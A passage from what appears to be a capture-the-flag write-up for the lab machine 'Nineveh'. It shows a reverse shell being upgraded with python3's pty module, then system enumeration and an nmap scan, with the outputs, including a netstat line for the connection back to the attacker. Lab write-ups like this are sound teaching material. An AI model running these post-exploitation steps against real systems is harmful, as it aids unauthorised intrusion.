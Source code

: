 ```
```

Let's upgrade our shell using python3, and gather some system information.

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@nineveh:/$ uname -a;cat /etc/*-release;netstat -antp
uname -a;cat /etc/*-release;netstat -antp
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp        0    848 10.10.10.43:45000       10.10.14.6:8888         ESTABLISHED 5124/php        
tcp        0      0 10.10.10.43:80          10.10.14.6:35342        ESTABLISHED -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
www-data@nineveh:/$ 
```

We see that the target is listening on port 22, however, our nmap scan didn't find it. Let's try another scan, this time we'll use the TCP connect scan.

```
└─$ nmap -sT -p 22 10.10.10.43        
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 08:26 EST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.014s latency).

PORT   STATE    SERVICE
22/tcp filtered ssh

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds

```
